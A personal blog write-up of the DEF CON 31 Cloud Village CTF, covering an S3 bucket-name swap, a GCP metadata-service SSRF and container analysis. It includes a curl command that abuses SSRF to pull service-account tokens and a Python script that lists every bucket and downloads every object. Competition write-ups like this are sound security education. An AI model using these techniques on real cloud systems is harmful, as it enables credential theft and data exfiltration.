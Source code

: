 ```yaml
---
layout: post
title:  "DefCon Cloud Village CTF Writeup"
date:   2023-08-28 12:41:18 -0500
categories: jekyll update
---
```


This is a write up of the DEFCON 31 Cloud Village CTF.

Part of getting through this included getting podman up and running on my chromebook. This required some messing around with LXC settings and crosh, mostly documented here, but there were some additional cgroups settings which needed to be changed documented here

I got 50th out of 200+ with only 3 flags. My machine didn't work for some of the challenges unfortunately, for example the aarch64 container and golang binary which didn't run on my x86 system

# Getting to Gnome Each Other

Flag is in the description. Copy and paste the flag from the description into the text box and hit submit.

# Gnome University

We are presented with an S3-hosted page listing some papers from previous year's cloud villages. The filename of the flag is given to us in the description as secret.txt.

[http://cloudfilestore.s3-website-eu-west-1.amazonaws.com/](http://cloudfilestore.s3-website-eu-west-1.amazonaws.com/)

Looking at the source of this page, there are some js functions which interact with a lambda function:

```js
const apiEndpoint = 'https://3k93nsmmy5.execute-api.eu-west-1.amazonaws.com/cloudev1';

// Function to fetch the presigned URL for a file
function fetchPresignedUrl(file, callback) {
    $.ajax({
        url: apiEndpoint + '/download?file_name=' + file + "&storage=research-gnomes-prod",
        type: 'GET',
        success: function(response) {
            console.log('Presigned URL:', response.body.presigned_url.body);
            callback(response.body.presigned_url.body);
        },
        error: function(error) {
            console.error('Error getting presigned URL:', error);
            callback(null); // Call the callback with null in case of an error
        }
    });
}
```

The API call in fetchPresignedUrl takes a bucket name in the storage parameter. It's hardcoded in the function, but if we try to access `secret.txt` in this particular bucket, we get a KeyError, which tells us that the file we're looking for isn't there. If we switch "research-gnomes-prod" for "research-gnomes-dev" and make our call, we get back a signed url, which takes us to the flag.

# Digital Forest

This puzzle has to do with the instance metadata service and enumerating buckets with credentials obtained from that instance metadata service.

We are presented with a simple web UI which accepts a URL and a POST body payload, and returns a response. We are given the hint in the description of the challenge that this challenge is on GCP.

We can skip using the UI by posting directly to the endpoint with `curl`, which lets us manipulate the json responses more conveniently with `jq`. I can access the metadata service for the host this service is running on  like this:

```bash
curl -X POST -d 'inputUrl=http://metadata.google.internal/computeMetadata/v1/project/project-id&inputHeader={"Metadata-Flavor": "Google"}' https://leaky-bucket-jobztbckaq-uc.a.run.app/result
```

I can generate an auth token with the metadata service. I can find the account email `leakybucket@optimal-jigsaw-390814.iam.gserviceaccount.com`, and generate an access token with `http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/leakybucket@optimal-jigsaw-390814.iam.gserviceaccount.com/token`

`https://cloud.google.com/compute/docs/access/create-enable-service-accounts-for-instances#applications` tells me how to use that access token

We can use this access token to list buckets and objects, which you can see in the code snippet below.

We can take those listed buckets and objects and download each file, which is also in the code snippet below. One of those downloaded files contained the flag, and we beat this challenge.

```py
#!/usr/bin/env python3

from google.cloud import storage
import requests

project_id = <project id goes here>
access_token = <access token goes here>

def list_buckets(project_id: str, access_token: str) -> list:
    url = "https://www.googleapis.com/storage/v1/b"
    params = {"project": project_id}
    headers = {"Authorization": f"Bearer {access_token}"}

    r = requests.get(url, params=params, headers=headers)
    r.raise_for_status()

    rjson = r.json()

    bucket_names = []

    for response in r.json()['items']:
        bucket_names.append(response['name'])

    return bucket_names

def list_objects_in_buckets(project_id: str, access_token: str, bucket_names: list) -> list:
    url = "https://www.googleapis.com/storage/v1/b/"
    headers = {"Authorization": f"Bearer {access_token}"}

    buckets = []

    for bucket_name in bucket_names:
        bucket_url = url + bucket_name + '/o'

        r = requests.get(bucket_url, headers=headers)
        r.raise_for_status()

        buckets.append(r.json())

    retval = []

    for bucket_contents in buckets:
        try:
            for files in bucket_contents['items']:
                retval.append(files['mediaLink'])
        except KeyError:
            print("Nothing in bucket, moving along")
            
    
    print(retval)
    return retval

def download_all_objects(file_urls: list) -> None:
    headers = {"Authorization": f"Bearer {access_token}"}

    for file_url in file_urls:
        try:
            local_filename = file_url.split('/')[-1]
            # NOTE the stream=True parameter below
            with requests.get(file_url, stream=True, headers=headers) as r:
                r.raise_for_status()
                with open(local_filename, 'wb') as f:
                    for chunk in r.iter_content(chunk_size=8192): 
                        # If you have chunk encoded response uncomment if
                        # and set chunk_size parameter to None.
                        #if chunk: 
                        f.write(chunk)
        except requests.exceptions.HTTPError:
            print("couldn't download {}".format(file_url))

buckets = list_buckets(project_id, access_token)

print(buckets)

objects = list_objects_in_buckets(project_id, access_token, buckets)

print(objects)

download_all_objects(objects)
```

# Rumors

This challenge was a tar pit for me. The prompt for this challenge was that there was a container that the gnomes were looking at and the flag could be found by looking at what the container did.

Before I even started this challenge I needed to get my machine to be able to run docker containers. I've pretty much abandoned Docker Desktop since their licensing changed in favor of using Podman, which has a better security posture when run rootless anyway. So, I installed podman via apt, and it didn't work. There were some missing libraries not defined in the apt package. I installed the dependencies, and that got us to another error about a missing OCI method. I spent a bunch of time googling and applying various changes in response to various errors, most of which are documented  [here](https://ntk.me/2021/05/14/podman-in-crostini/) and [here](https://bugs.chromium.org/p/chromium/issues/detail?id=860565). Eventually I got to a point where I should be able to run a container, and I tested this with the hello world container on docker hub, which worked. I tried again to run the CTF container, and it failed. Looking at the registry, I saw that this container was built for ARM machines, and I was on an x86 machine. I still tried to find the flag through some other techniques though, there are a few ways we can learn more about what's in a container even if we can't run it.

`podman image inspect` can give us, among other information, the composition of the various dockerfiles that were used to build the container. I checked this, thinking maybe an environment variable might contain some creds, or a script file I can read in cleartext, or maybe a cred file in ~/.gcp or some such similar place. Unfortunately, the only thing of interest it told me was that there was a golang binary that was transferred into the container, and that's all I had to work off. This binary was not executable for me on an x86 machine, it was built for ARM. Regardless, I disassembled the golang binary to see if there were any plaintext magic strings I could look for, maybe a URL somewhere, but I didn't see any, unfortunately. This is where I left this challenge at around 3 in the morning. 

According to people on the Cloud Village Discord after the CTF closed, the flag's pretty easy to find if you can run the container. The golang binary reaches out to an unsecured S3 bucket which contains both a shell script that the binary executes as well as the flag. Intercepting and logging the traffic out of the container is all you have to do, very simple and straightforward.

# Gotta Go Gnome

We are presented with a page that generates bearer tokens. According to people on Discord who did this challenge, the project id is the same as the Digital Forest challenge, which I did not know. I spent a bunch of time trying to find an API that would tell me what project my current credentials had access to, but didn't find one lol. Didn't get the flag.
